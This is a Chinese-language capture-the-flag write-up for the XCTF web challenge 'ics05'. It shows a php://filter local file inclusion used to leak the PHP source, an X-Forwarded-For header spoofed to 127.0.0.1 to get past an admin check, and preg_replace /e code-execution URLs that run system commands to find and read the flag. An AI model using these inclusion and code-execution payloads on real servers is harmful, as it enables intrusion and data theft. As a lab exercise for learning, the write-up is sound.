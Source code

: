 xman_web_ics05

扫描网址得

>[19:56:55] 200 -    5KB - /index.html                                           
>
>[19:56:55] 200 -    2KB - /index.php 
>
>[19:56:55] 200 -    2KB - /index.php/login/

访问http://111.198.29.45:39337/index.php/login后点击网页上的文字后，url变成

`http://111.198.29.45:39337/index.php/login?page=index`

于是猜测可以php://input

> http://111.198.29.45:39337/index.php/login?page=php://filter/read=convert.base64-encode/resource=index.php

得到index.php的内容,base64解码后为

```php
<?php
error_reporting(0);

@session_start();
posix_setuid(1000);


?>
<!DOCTYPE HTML>
<html>

<head>
    <meta charset="utf-8">
    <meta name="renderer" content="webkit">
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
    <link rel="stylesheet" href="layui/css/layui.css" media="all">
    <title>è®¾å¤ç»´æ¤ä¸­å¿</title>
    <meta charset="utf-8">
</head>

<body>
    <ul class="layui-nav">
        <li class="layui-nav-item layui-this"><a href="?page=index">äºå¹³å°è®¾å¤ç»´æ¤ä¸­å¿</a></li>
    </ul>
    <fieldset class="layui-elem-field layui-field-title" style="margin-top: 30px;">
        <legend>è®¾å¤åè¡¨</legend>
    </fieldset>
    <table class="layui-hide" id="test"></table>
    <script type="text/html" id="switchTpl">
        <!-- è¿éç checked çç¶æåªæ¯æ¼ç¤º -->
        <input type="checkbox" name="sex" value="{{d.id}}" lay-skin="switch" lay-text="å¼|å³" lay-filter="checkDemo" {{ d.id==1 0003 ? 'checked' : '' }}>
    </script>
    <script src="layui/layui.js" charset="utf-8"></script>
    <script>
    layui.use('table', function() {
        var table = layui.table,
            form = layui.form;

        table.render({
            elem: '#test',
            url: '/somrthing.json',
            cellMinWidth: 80,
            cols: [
                [
                    { type: 'numbers' },
                     { type: 'checkbox' },
                     { field: 'id', title: 'ID', width: 100, unresize: true, sort: true },
                     { field: 'name', title: 'è®¾å¤å', templet: '#nameTpl' },
                     { field: 'area', title: 'åºå' },
                     { field: 'status', title: 'ç»´æ¤ç¶æ', minWidth: 120, sort: true },
                     { field: 'check', title: 'è®¾å¤å¼å³', width: 85, templet: '#switchTpl', unresize: true }
                ]
            ],
            page: true
        });
    });
    </script>
    <script>
    layui.use('element', function() {
        var element = layui.element; //å¯¼èªçhoverææãäºçº§èåç­åè½ï¼éè¦ä¾èµelementæ¨¡å
        //çå¬å¯¼èªç¹å»
        element.on('nav(demo)', function(elem) {
            //console.log(elem)
            layer.msg(elem.text());
        });
    });
    </script>

<?php

$page = $_GET[page];

if (isset($page)) {



if (ctype_alnum($page)) {
?>

    <br /><br /><br /><br />
    <div style="text-align:center">
        <p class="lead"><?php echo $page; die();?></p>
    <br /><br /><br /><br />

<?php

}else{

?>
        <br /><br /><br /><br />
        <div style="text-align:center">
            <p class="lead">
                <?php

                if (strpos($page, 'input') > 0) {
                    die();
                }

                if (strpos($page, 'ta:text') > 0) {
                    die();
                }

                if (strpos($page, 'text') > 0) {
                    die();
                }

                if ($page === 'index.php') {
                    die('Ok');
                }
                    include($page);
                    die();
                ?>
        </p>
        <br /><br /><br /><br />

<?php
}}


//æ¹ä¾¿çå®ç°è¾å¥è¾åºçåè½,æ­£å¨å¼åä¸­çåè½ï¼åªè½åé¨äººåæµè¯

if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}
?>

</body>

</html>

```

看见最后有`$_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1'`的判断条件才会调用`preg_replace`函数

**!! preg_replace()函数有漏洞** 见https://www.jb51.net/article/145649.htm

>preg_replace( pattern , replacement , subject ) : 当pattern指明/e标志时 ,preg_replace()会将replacement部分的代码当作PHP代码执行 (简单的说就是将replacement参数值放入eval()结构中)


所以在访问之前先给请求头加上 X-Forwarded-For：127.0.0.1

（具体操作可以是先burpsuite抓包，加上后forward就可以显示在浏览器中）

>GET /index.php HTTP/1.1
>Host: 111.198.29.45:39337
>User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
>Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
>Referer: http://111.198.29.45:39337/
>Connection: close
>Cookie: PHPSESSID=rj6tgg529u9r3ei026pemdf425
>Upgrade-Insecure-Requests: 1
>Cache-Control: max-age=0
>X-Forwarded-For: 127.0.0.1

界面就多了一行`Welcome My Admin !` 

随后利用preg_replace的漏洞对系统里flag相关文件进行查找

> 111.198.29.45:39337/index.php?pat=/test/e&rep=system('find / -iname flag')&sub=test

得到flag文件的路径

>Welcome My Admin ! 
>/var/www/html/s3chahahaDir/flag

最后

> 111.198.29.45:39337/index.php?pat=/test/e&rep=system('cat/var/www/html/s3chahahaDir/flag/flag.php')&sub=test

>Welcome My Admin ! 
>
><?php $flag = 'cyberpeace{d5affd241d93965bf3d575c7de26c14d}';?>

